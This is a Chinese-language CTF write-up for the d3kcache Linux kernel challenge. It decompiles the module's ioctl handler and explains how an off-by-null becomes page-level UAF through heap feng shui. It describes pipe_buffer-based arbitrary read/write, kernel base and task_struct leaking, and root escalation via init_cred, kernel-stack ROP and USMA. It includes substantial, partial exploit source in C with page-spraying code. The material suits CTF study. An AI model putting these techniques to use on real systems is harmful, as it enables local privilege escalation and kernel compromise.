全局数组 `qword_17D8` 用于保存 cache 指针，`kcache_list` 用于保存 cache 大小。

```c
__int64 __fastcall d3kcache_ioctl(__int64 a1, int cmd, __int64 value)
{
  __int64 v4; // rax
  __int64 v5; // rbx
  int size_2; // ecx
  char *current_ptr; // r14
  __int64 size_3; // r15
  __int64 ptr_1; // r12
  int size_1; // ecx
  __int64 size; // rbx
  __int64 object_ptr; // r14
  __int64 ptr; // r15
  __int64 object; // rax
  __int64 object_1; // r15
  unsigned int max_range_1; // r13d
  __int64 size_4; // r14
  __int64 ptr_2; // r12
  __int64 index_1; // r14
  unsigned __int64 index_2; // rbx
  __int64 max_range; // rax
  __int64 index; // r12
  unsigned __int64 index_3; // rbx
  const char *v25; // rdi
  struct userdata data; // [rsp-48h] [rbp-48h] BYREF
  unsigned __int64 v27; // [rsp-38h] [rbp-38h]

  v27 = __readgsqword(0x28u);
  raw_spin_lock(&spin);
  v4 = copy_from_user(&data, value, 16LL);
  v5 = -1LL;
  if ( v4 )
    goto LABEL_2;
  if ( cmd > 0x80F )
  {
    if ( cmd == 0x810 )                         // free
    {
      if ( data.index > 0xFuLL || !qword_17D8[2 * data.index] )
      {
        v25 = "\x011[d3kcache:] Invalid index to release.";
        goto LABEL_46;
      }
      kmem_cache_free(kcache_jar);
      index_1 = data.index;
      if ( (unsigned __int64)data.index > 0xF )
      {
        _ubsan_handle_out_of_bounds(&off_12A0, data.index);
        index_2 = data.index;
        qword_17D8[2 * index_1] = 0LL;
        if ( index_2 >= 0x10 )
          _ubsan_handle_out_of_bounds(&off_12C0, (unsigned int)index_2);
      }
      else
      {
        qword_17D8[2 * data.index] = 0LL;
        index_2 = (unsigned int)index_1;
      }
      size_array[4 * index_2] = 0;
      v5 = 0LL;
    }
    else
    {
      if ( cmd != 0x1919 )                      // read
        goto LABEL_42;
      if ( data.index > 0xFuLL || !qword_17D8[2 * data.index] )
      {
        v25 = "\x011[d3kcache:] Invalid index to read.";
        goto LABEL_46;
      }
      size_1 = data.size;
      if ( data.size > (unsigned int)size_array[4 * data.index] )
        size_1 = size_array[4 * data.index];
      if ( size_1 < 0 )
        BUG();
      size = (unsigned int)size_1;
      object_ptr = qword_17D8[2 * data.index];
      ptr = data.ptr;
      _check_object_size(object_ptr, (unsigned int)size_1, 1LL);
      v5 = -(__int64)(copy_to_user(ptr, object_ptr, size) != 0);
    }
  }
  else
  {
    if ( cmd != 0x114 )
    {
      if ( cmd == 0x514 )
      {
        if ( data.index <= 0xFuLL && qword_17D8[2 * data.index] )// write
        {
          size_2 = data.size;
          if ( data.size > 0x800u || (unsigned int)(data.size + size_array[4 * data.index]) >= 0x800 )
            size_2 = 2048 - size_array[4 * data.index];
          if ( size_2 < 0 )
            BUG();
          current_ptr = (char *)(qword_17D8[2 * data.index] + (unsigned int)size_array[4 * data.index]);
          size_3 = (unsigned int)size_2;
          ptr_1 = data.ptr;
          _check_object_size(current_ptr, (unsigned int)size_2, 0LL);
          if ( !copy_from_user(current_ptr, ptr_1, size_3) )
          {
            current_ptr[size_3] = 0;
            v5 = 0LL;
          }
          goto LABEL_2;
        }
        v25 = "\x011[d3kcache:] Invalid index to write.";
LABEL_46:
        printk(v25);
        goto LABEL_2;
      }
LABEL_42:
      v25 = "\x011[d3kcache:] Invalid command.";
      goto LABEL_46;
    }
    if ( data.index >= 0x10uLL )
    {
      v25 = "\x011[d3kcache:] Invalid index to allocate.";
      goto LABEL_46;
    }
    if ( qword_17D8[2 * data.index] )
    {
      v25 = "\x011[d3kcache:] Index already in use.";
      goto LABEL_46;
    }
    object = kmem_cache_alloc(kcache_jar, 0xDC0LL);// add
    if ( !object )
    {
      v25 = "\x011[d3kcache:] Out of memory.";
      goto LABEL_46;
    }
    object_1 = object;
    max_range_1 = data.size;
    size_4 = 0x800LL;
    if ( data.size < 0x800u )
      size_4 = (unsigned int)data.size;
    ptr_2 = data.ptr;
    _check_object_size(object, size_4, 0LL);
    if ( copy_from_user(object_1, ptr_2, size_4) )
    {
      kmem_cache_free(kcache_jar);
    }
    else
    {
      max_range = 0x7FFLL;
      if ( max_range_1 < 0x7FF )
        max_range = max_range_1;
      *(_BYTE *)(object_1 + max_range) = 0;
      index = data.index;
      if ( (unsigned __int64)data.index > 0xF )
      {
        _ubsan_handle_out_of_bounds(&off_1260, data.index);
        index_3 = data.index;
        qword_17D8[2 * index] = object_1;
        if ( index_3 >= 0x10 )
          _ubsan_handle_out_of_bounds(&off_1280, (unsigned int)index_3);
      }
      else
      {
        qword_17D8[2 * data.index] = object_1;
        index_3 = (unsigned int)index;
      }
      size_array[4 * index_3] = size_4;
      v5 = 0LL;
    }
  }
LABEL_2:
  raw_spin_unlock(&spin);
  return v5;
}
```

###  `struct page` 指针、线性映射区与 vmemmap

#### 1. 线性映射区与物理地址的关系

在 Linux 内核中，**线性映射区**（也称直接映射区）是虚拟地址空间的一部分，用于直接映射物理内存地址。这意味着，给定物理地址，加上固定偏移（`PAGE_OFFSET`）即可得到它在线性映射区中的虚拟地址，反之亦然。

在 x86_64 架构上，`PAGE_OFFSET` 一般为 `0xffff888000000000`，即内核线性映射区的起始地址。假设有一个线性映射区虚拟地址 `0xffff888012345000`，减去 `PAGE_OFFSET` 就能得到对应的物理地址。

#### 2. 计算物理地址

假设 `PAGE_OFFSET` 为 `0xffff888000000000`：
```c
unsigned long linear_address = 0xffff888012345000;
unsigned long physical_address = linear_address - PAGE_OFFSET;
```
结果为：
```c
physical_address = 0xffff888012345000 - 0xffff888000000000
                 = 0x12345000
```
这个物理地址为 `0x12345000`。

#### 3. 将物理地址转换为 `struct page` 指针

在 Linux 内核中，物理内存页通过 `struct page` 结构体管理。每个物理页都有对应的 `struct page` 结构体，这些结构体通常连续存放在内核数组中（`vmemmap` 数组是全局数组，映射全部物理页的 struct page 结构体；数组的每个元素都对应一个物理页的 struct page 结构体）。这个数组的每个元素对应一个物理页。

将物理地址转换为 `struct page` 指针，需要以下步骤：

1. **将物理地址转换为页帧号（PFN）**：
   - 页帧号等于物理地址除以页面大小（通常为 4KB）。
   ```c
   unsigned long pfn = physical_address >> PAGE_SHIFT;
   ```
   这里的 `PAGE_SHIFT` 是页面大小对应的移位量；页面大小为 4KB 时，`PAGE_SHIFT` 为 12。

2. **将页帧号转换为 `struct page` 指针**：
   - 内核提供宏 `pfn_to_page(pfn)`，通过页帧号找到对应的 `struct page` 结构体。该宏的结果是 vmemmap 数组中 PFN 对应的 struct page 结构体的虚拟地址。
   ```c
   struct page *page = pfn_to_page(pfn);
   ```

#### 示例代码

结合以上步骤，代码如下：
```c
#define PAGE_OFFSET 0xffff888000000000UL
#define PAGE_SHIFT 12

unsigned long linear_address = 0xffff888012345000;
unsigned long physical_address = linear_address - PAGE_OFFSET;
unsigned long pfn = physical_address >> PAGE_SHIFT;
struct page *page = pfn_to_page(pfn);
```

### pipebuffer
[https://www.51cto.com/article/684282.html](https://www.51cto.com/article/684282.html)

fcntl 重新分配大小时，先执行 kcalloc，再将原 pipebuffer 中的内容（已有数据的页面）复制到 kcalloc 分配的 pipebuffer。

读：pipebuffer 通过 pipebuffer->offset、pipebuffer->len 和 page 读取；读取后，`pipebuffer->offset = pipebuffer->offset + pipebuffer->len`
写：pipebuffer 从 `pipebuffer->offset + pipebuffer->len` 开始写入，并且 `pipebuffer->len = pipebuffer->len + number of bytes written`

另外，只有向管道写入时，才会为 page 分配物理页。


### 利用
漏洞位于命令 1300（向现有 cache 追加数据）：存在 off-by-null 漏洞。

由于这是独立 cache，没有其他结构体与其共享 cache。但来自伙伴系统同一 order 的 cache，其结构体可以相邻，因此只能考虑通过页级堆风水造成跨 cache 的情况。
### 第一级页 UAF
这里考虑相同的 order：2k 对应 order 3，因此也寻找分配 order 3 的 cache，使两者可能来自同一个 order-4 内存块。这样两个 order-3 cache 相邻，前一个 order-3 cache 的最后一个对象为 kcache_jar，后一个 order-3 cache 的第一个对象恰好是某个结构体对象，就可以通过 off-by-null 溢出该结构体。

- 因为需要它们来自同一个 order-4 内存块，具体而言是两个物理地址相邻的内存块，所以可以分配大部分 order-3 内存块，消耗不连续的部分，再得到连续的一段 order-3 内存。为保证相邻，可以先喷一些 slab，再分配一个 kcache_jar slab，然后再喷一些 slab，让 kcache_jar 夹在希望溢出的 slab 中。



-  然后，获得页级 UAF 后，关闭其中一个。

### 第二级页 UAF
通过 fcntl 改变 pipebuffer 数量，重新分配一个 kmalloc-96 大小的对象，用于存放 pipebuffer 数组。再用 pipebuffer 填充已释放页面，这样就可以通过页 UAF 读出其中一条管道的 pipebuffer，再通过写入修改相邻管道的 pipebuffer，使两条管道包含相同的 pipebuffer。随后关闭包含已读出 pipebuffer 的管道，此时被写入的那条管道的 pipebuffer 就形成了 UAF。



### 任意读写
使用 fcntl 改变 pipebuffer 数量并重新分配，申请 kmalloc-192 存放 pipebuffer。随后用 kmalloc-192 的 pipebuffer 填满第二级 UAF 页面，将三条管道中每条管道的第一个 pipebuffer 都写成之前读出的 pipebuffer，并将 offset 和 len 均设为 192。这样读取时，就能读到之前泄露的 pipebuffer，而它的 page 恰好是当前第二级 UAF 页面。


- 扫描并读取每条管道；若 page 为第二级 UAF 页面，就能读出该页面。如果内容与之前读出的一致，就可以确定当前管道是三条管道之一，进而识别出全部三条管道。
- 随后构建任意读写：先通过第 3 个 pipebuffer 写入，将第 2 个 pipebuffer 的 offset 设为第 3 个 pipebuffer 的偏移。然后按如下方式循环：首先，第 2 个 pipebuffer 可以将第 3 个 pipebuffer 的 offset 写成第 1 个 pipebuffer 的偏移；此时第 3 个 pipebuffer 就能写入第 1 和第 2 个 pipebuffer——将第 1 个 pipebuffer 的 page 写为待读取的 page，再将第 2 个 pipebuffer 的 offset 写为第 3 个 pipebuffer 的偏移。

### 泄露 task_struct 和 kernel_base
- 首先，根据 page 和粒度，通过异或推测 vmemmap_base。
- 然后，由于第 156 页开头包含 `secondary_startup_64` 函数的地址，可以得到偏移，进而得到基址。

```c
  /**
     * KASLR's granularity is 256MB, and pages of size 0x1000000 is 1GB MEM,
     * so we can simply get the vmemmap_base like this in a SMALL-MEM env.
     * For MEM > 1GB, we can just find the secondary_startup_64 func ptr,
     * which is located on physmem_base + 0x9d000, i.e., vmemmap_base[156] page.
     * If the func ptr is not there, just vmemmap_base -= 256MB and do it again.
     */
    vmemmap_base = (size_t) info_pipe_buf.page & 0xfffffffff0000000;
    for (;;) {
        arbitrary_read_by_pipe((struct page*) (vmemmap_base + 157 * 0x40), buf);

        if (buf[0] > 0xffffffff81000000 && ((buf[0] & 0xfff) == 0x070)) {
            kernel_base = buf[0] -  0x070;
            kernel_offset = kernel_base - 0xffffffff81000000;
            printf("\033[32m\033[1m[+] Found kernel base: \033[0m0x%lx\n"
                   "\033[32m\033[1m[+] Kernel offset: \033[0m0x%lx\n", 
                   kernel_base, kernel_offset);
            break;
        }

        vmemmap_base -= 0x10000000;
    }
    printf("\033[32m\033[1m[+] vmemmap_base:\033[0m 0x%lx\n\n", vmemmap_base);
```
- 使用 prctl 设置当前进程名。
- 扫描页面，根据进程名找到 task_struct，通过 task_struct::ptraced 指针泄露当前 task_struct，并根据它所在的 page 推导出 page_offset_base。
```c
/* now seeking for the task_struct in kernel memory */
    puts("[*] Seeking task_struct in memory...");

    prctl(PR_SET_NAME, "arttnba3pwnn");

    /**
     * For a machine with MEM less than 256M, we can simply get the:
     *      page_offset_base = heap_leak & 0xfffffffff0000000;
     * But that's not always accurate, espacially on a machine with MEM > 256M.
     * So we need to find another way to calculate the page_offset_base.
     * 
     * Luckily the task_struct::ptraced points to itself, so we can get the
     * page_offset_base by vmmemap and current task_struct as we know the page.
     * 
     * Note that the offset of different filed should be referred to your env.
     */
    for (int i = 0; 1; i++) {
        arbitrary_read_by_pipe((struct page*) (vmemmap_base + i * 0x40), buf);

        comm_addr = memmem(buf, 0xf00, "arttnba3pwnn", 12);
        if (comm_addr && (comm_addr[-2] > 0xffff888000000000) /* task->cred */
            && (comm_addr[-3] > 0xffff888000000000) /* task->real_cred */
            && (comm_addr[-57] > 0xffff888000000000) /* task->read_parent */
            && (comm_addr[-56] > 0xffff888000000000)) {  /* task->parent */

            /* task->read_parent */
            parent_task = comm_addr[-57];

            /* task_struct::ptraced */
            current_task = comm_addr[-50] - 2528;

            page_offset_base = (comm_addr[-50]&0xfffffffffffff000) - i * 0x1000;
            page_offset_base &= 0xfffffffff0000000;

            printf("\033[32m\033[1m[+] Found task_struct on page: \033[0m%p\n",
                   (struct page*) (vmemmap_base + i * 0x40));
            printf("\033[32m\033[1m[+] page_offset_base: \033[0m0x%lx\n",
                   page_offset_base);
            printf("\033[34m\033[1m[*] current task_struct's addr: \033[0m"
                   "0x%lx\n\n", current_task);
            break;
        }
```

### 提权
#### 通过 init_cred 提权
沿当前 task_struct 的 real_parent（即父进程 task_struct 的虚拟地址）向上查找，直到 real_parent 指向自身，这就是 `init_task`。然后将 init_task 的 init_cred 写入当前 task_struct 的 cred 指针，使其指向 init_cred。
####  在内核栈上写入 ROP
可以通过 mm_struct 得到页表地址，通过 task_struct 得到 mm_struct 地址；内核栈地址同样可以通过 task_struct 得到。

通过 task_struct 的 stack 指针可以得到内核栈地址，再通过页表转换得到栈的物理地址，进而得到对应的 page。之后就可以向对应 page 喷射 ROP，实现提权。


####  USMA
- mmap 一片内存，修改页表，使 mmap 得到的虚拟内存映射到 ns_capable_setid 函数对应的物理地址。再向 mmap 区域写入 shellcode，以修改 ns_capable_setid 函数。这里 ns_capable_setid 所在的代码段是 2M 大页，而非 4K 内存页，因此通过三级页表而非四级页表解析。所以，mmap 虚拟内存最终映射的第四级页表中的页表项，为一个 2M 大页的地址。
- shellcode 可以让 ns_capable_setid 的返回值始终为 1。调用 setresuid(0, 0, 0) 提权时，会通过 ns_capable_setid 判断是否允许。修改 ns_capable_setid 函数后，就能使用 setresuid(0, 0, 0) 提权。


### exp

```c
#ifndef _GNU_SOURCE
#define _GNU_SOURCE
#endif

#include <asm/ldt.h>
#include <assert.h>
#include <ctype.h>
#include <errno.h>
#include <fcntl.h>
#include <linux/keyctl.h>
#include <linux/userfaultfd.h>
#include <poll.h>
#include <pthread.h>
#include <sched.h>
#include <semaphore.h>
#include <signal.h>
#include <stdbool.h>
#include <stdint.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/ioctl.h>
#include <sys/ipc.h>
#include <sys/mman.h>
#include <sys/msg.h>
#include <sys/prctl.h>
#include <sys/sem.h>
#include <sys/shm.h>
#include <sys/socket.h>
#include <sys/syscall.h>
#include <sys/types.h>
#include <sys/wait.h>
#include <sys/xattr.h>
#include <unistd.h>
#include <sys/sysinfo.h>

int randint(int min, int max) {
    return min + (rand() % (max - min));
}

void bind_core(bool fixed, bool thread) {
    cpu_set_t cpu_set;
    CPU_ZERO(&cpu_set);
    CPU_SET(fixed ? 0 : randint(1, get_nprocs()), &cpu_set);
    if (thread) {
        pthread_setaffinity_np(pthread_self(), sizeof(cpu_set), &cpu_set);
        //用于设置某个线程的 CPU 亲和性。
    } else {
        sched_setaffinity(getpid(), sizeof(cpu_set), &cpu_set);
        //用于设置整个进程的 CPU 亲和性。
    }
}

void qword_dump(char *desc, void *addr, int len) {
    uint64_t *buf64 = (uint64_t *) addr;
    uint8_t *buf8 = (uint8_t *) addr;
    if (desc != NULL) {
        printf("[*] %s:\n", desc);
    }
    for (int i = 0; i < len / 8; i += 4) {
        printf("  %04x", i * 8);
        for (int j = 0; j < 4; j++) {
            i + j < len / 8 ? printf(" 0x%016lx", buf64[i + j]) : printf("                   ");
        }
        printf("   ");
        for (int j = 0; j < 32 && j + i * 8 < len; j++) {
            printf("%c", isprint(buf8[i * 8 + j]) ? buf8[i * 8 + j] : '.');
        }
        puts("");
    }
}

void byte_dump(char *desc, void *addr, int len) {
    uint8_t *buf8 = (unsigned char *) addr;
    if (desc != NULL) {
        printf("[*] %s:\n", desc);
    }
    for (int i = 0; i < len; i += 16) {
        printf("  %04x", i);
        for (int j = 0; j < 16; j++) {
            i + j < len ? printf(" %02x", buf8[i + j]) : printf("   ");
        }
        printf("   ");
        for (int j = 0; j < 16 && j + i < len; j++) {
            printf("%c", isprint(buf8[i + j]) ? buf8[i + j] : '.');
        }
        puts("");
    }
}

bool is_kernel_text_addr(size_t addr) {
    return addr >= 0xFFFFFFFF80000000 && addr <= 0xFFFFFFFFFEFFFFFF;
//    return addr >= 0xFFFFFFFF80000000 && addr <= 0xFFFFFFFF9FFFFFFF;
}

bool is_dir_mapping_addr(size_t addr) {
    return addr >= 0xFFFF888000000000 && addr <= 0xFFFFc87FFFFFFFFF;
}

size_t user_cs, user_rflags, user_sp, user_ss;

void save_status() {
    __asm__("mov user_cs, cs;"
            "mov user_ss, ss;"
            "mov user_sp, rsp;"
            "pushf;"
            "pop user_rflags;");
    puts("[*] status has been saved.");
}

/**
 * @brief create an isolate namespace
 * note that the caller **SHOULD NOT** be used to get the root, but an operator
 * to perform basic exploiting operations in it only
 */
void unshare_setup(void) {
    char edit[0x100];
    int tmp_fd;

    unshare(CLONE_NEWNS | CLONE_NEWUSER | CLONE_NEWNET);

    tmp_fd = open("/proc/self/setgroups", O_WRONLY);
    write(tmp_fd, "deny", strlen("deny"));
    close(tmp_fd);

    tmp_fd = open("/proc/self/uid_map", O_WRONLY);
    snprintf(edit, sizeof(edit), "0 %d 1", getuid());
    write(tmp_fd, edit, strlen(edit));
    close(tmp_fd);

    tmp_fd = open("/proc/self/gid_map", O_WRONLY);
    snprintf(edit, sizeof(edit), "0 %d 1", getgid());
    write(tmp_fd, edit, strlen(edit));
    close(tmp_fd);
}
/**
 * III -  pgv pages sprayer related
 * not that we should create two process:
 * - the parent is the one to send cmd and get root
 * - the child creates an isolate userspace by calling unshare_setup(),
 *      receiving cmd from parent and operates it only
 */
#define PGV_PAGE_NUM 1000
#define PACKET_VERSION 10
#define PACKET_TX_RING 13

struct tpacket_req {
    unsigned int tp_block_size;
    unsigned int tp_block_nr;
    unsigned int tp_frame_size;
    unsigned int tp_frame_nr;
};

/* each allocation is (size * nr) bytes, aligned to PAGE_SIZE */
struct pgv_page_request {
    int idx;
    int cmd;
    unsigned int size;
    unsigned int nr;
};

/* operations type */
enum {
    CMD_ALLOC_PAGE,
    CMD_FREE_PAGE,
    CMD_EXIT,
};

/* tpacket version for setsockopt */
enum tpacket_versions {
    TPACKET_V1,
    TPACKET_V2,
    TPACKET_V3,
};

/* pipe for cmd communication */
int cmd_pipe_req[2], cmd_pipe_reply[2];

/* create a socket and alloc pages, return the socket fd */
int create_socket_and_alloc_pages(unsigned int size, unsigned int nr) {
    struct tpacket_req req;
    int socket_fd, version;
    int ret;

    socket_fd = socket(AF_PACKET, SOCK_RAW, PF_PACKET);
    if (socket_fd < 0) {
        printf("[x] failed at socket(AF_PACKET, SOCK_RAW, PF_PACKET)\n");
        ret = socket_fd;
        goto err_out;
    }

    version = TPACKET_V1;
    ret = setsockopt(socket_fd, SOL_PACKET, PACKET_VERSION,
                     &version, sizeof(version));
    if (ret < 0) {
        printf("[x] failed at setsockopt(PACKET_VERSION)\n");
        goto err_setsockopt;
    }

    memset(&req, 0, sizeof(req));
    req.tp_block_size = size;
    req.tp_block_nr = nr;
    req.tp_frame_size = 0x1000;
    req.tp_frame_nr = (req.tp_block_size * req.tp_block_nr) / req.tp_frame_size;

    ret = setsockopt(socket_fd, SOL_PACKET, PACKET_TX_RING, &req, sizeof(req));
    if (ret < 0) {
        printf("[x] failed at setsockopt(PACKET_TX_RING)\n");
        goto err_setsockopt;
    }

    return socket_fd;

    err_setsockopt:
    close(socket_fd);
    err_out:
    return ret;
}

/* the parent process should call it to send command of allocation to child */
int alloc_page(int idx, unsigned int size, unsigned int nr) {
    struct pgv_page_request req = {
            .idx = idx,
            .cmd = CMD_ALLOC_PAGE,
            .size = size,
            .nr = nr,
    };
    int ret;

    write(cmd_pipe_req[1], &req, sizeof(struct pgv_page_request));
    read(cmd_pipe_reply[0], &ret, sizeof(ret));

    return ret;
}

/* the parent process should call it to send command of freeing to child */
int free_page(int idx) {
    struct pgv_page_request req = {
            .idx = idx,
            .cmd = CMD_FREE_PAGE,
    };
    int ret;

    write(cmd_pipe_req[1], &req, sizeof(req));
    read(cmd_pipe_reply[0], &ret, sizeof(ret));
    usleep(10000);
    return ret;
}

/* the child, handler for commands from the pipe */
void spray_cmd_handler(void) {
    struct pgv_page_request req;
    int socket_fd[PGV_PAGE_NUM];
    int ret;

    /* create an isolate namespace*/
    unshare_setup();

    /* handler request */
    do {
        read(cmd_pipe_req[0], &req, sizeof(req));

        if (req.cmd == CMD_ALLOC_PAGE) {
            ret = create_socket_and_alloc_pages(req.size, req.nr);
            socket_fd[req.idx] = ret;
        } else if (req.cmd == CMD_FREE_PAGE) {
            ret = close(socket_fd[req.idx]);
        } else {
            printf("[x] invalid request: %d\n", req.cmd);
        }

        write(cmd_pipe_reply[1], &ret, sizeof(ret));
    } while (req.cmd != CMD_EXIT);
}

/* init pgv-exploit subsystem :) */
void prepare_pgv_system(void) {
    /* pipe for pgv */
    pipe(cmd_pipe_req);
    pipe(cmd_pipe_reply);

    /* child process for pages spray */
    if (!fork()) {
        spray_cmd_handler();
    }
}

/**
 * IV - config for page-level heap spray and heap fengshui
 */
#define PIPE_SPRAY_NUM 200

#define PGV_1PAGE_SPRAY_NUM 0x20

#define PGV_4PAGES_START_IDX PGV_1PAGE_SPRAY_NUM
#define PGV_4PAGES_SPRAY_NUM 0x40

#define PGV_8PAGES_START_IDX (PGV_4PAGES_START_IDX + PGV_4PAGES_SPRAY_NUM)
#define PGV_8PAGES_SPRAY_NUM 0x40

int pgv_1page_start_idx = 0;
int pgv_4pages_start_idx = PGV_4PAGES_START_IDX;
int pgv_8pages_start_idx = PGV_8PAGES_START_IDX;

/* spray pages in different size for various usages */
void prepare_pgv_pages(void) {
    /**
     * We want a more clear and continuous memory there, which require us to
     * make the noise less in allocating order-3 pages.
     * So we pre-allocate the pages for those noisy objects there.
     */
    puts("[*] spray pgv order-0 pages...");
    for (int i = 0; i < PGV_1PAGE_SPRAY_NUM; i++) {
        if (alloc_page(i, 0x1000, 1) < 0) {
            printf("[x] failed to create %d socket for pages spraying!\n", i);
        }
    }

    puts("[*] spray pgv order-2 pages...");
    for (int i = 0; i < PGV_4PAGES_SPRAY_NUM; i++) {
        if (alloc_page(PGV_4PAGES_START_IDX + i, 0x1000 * 4, 1) < 0) {
            printf("[x] failed to create %d socket for pages spraying!\n", i);
        }
    }

    /* spray 8 pages for page-level heap fengshui */
    puts("[*] spray pgv order-3 pages...");
    for (int i = 0; i < PGV_8PAGES_SPRAY_NUM; i++) {
        /* a socket need 1 obj: sock_inode_cache  832   19    4 , 19 objs for 1 slub on 4 page*/
        if (i % 19 == 0) {
            free_page(pgv_4pages_start_idx++);
        }

        /* a socket need 1 dentry: dentry  192   21    1, 21 objs for 1 slub on 1 page */
        if (i % 21 == 0) {
            free_page(pgv_1page_start_idx += 2);
        }

        /* a pgv need 1 obj: kmalloc-8  8  512    1, 512 objs for 1 slub on 1 page*/
        if (i % 512 == 0) {
            free_page(pgv_1page_start_idx += 2);
        }

        if (alloc_page(PGV_8PAGES_START_IDX + i, 0x1000 * 8, 1) < 0) {
            printf("[x] failed to create %d socket for pages spraying!\n", i);
        }
    }

    puts("");
}


int kcache_fd;

typedef struct {
    int index;
    uint32_t size;
    void *buf;
} kcache_cmd;


int kcache_alloc(int index, uint32_t size, void *buf) {
    return ioctl(kcache_fd, 0x114, &(kcache_cmd) {index, size, buf});
}

int kcache_write(int index, uint32_t size, void *buf) {
    return ioctl(kcache_fd, 0x514, &(kcache_cmd) {index, size, buf});
}

int kcache_read(int index, uint32_t size, void *buf) {
    return ioctl(kcache_fd, 0x1919, &(kcache_cmd) {index, size, buf});
}

int kcache_free(int index) {
    return ioctl(kcache_fd, 0x810, &(kcache_cmd) {.index=index});
}

#define KCACHE_NUM 0x10
#define KCACHE_SIZE 2048

#define SND_PIPE_BUF_SZ 96
#define TRD_PIPE_BUF_SZ 192

int pipe_fd[PIPE_SPRAY_NUM][2];

struct pipe_buffer {
    struct page *page;
    unsigned int offset, len;
    const struct pipe_buf_operations *ops;
    unsigned int flags;
    unsigned long private;
} info_pipe_buf, evil_pipe_buf[3];
int orig_pipe_id[2] = {-1, -1};
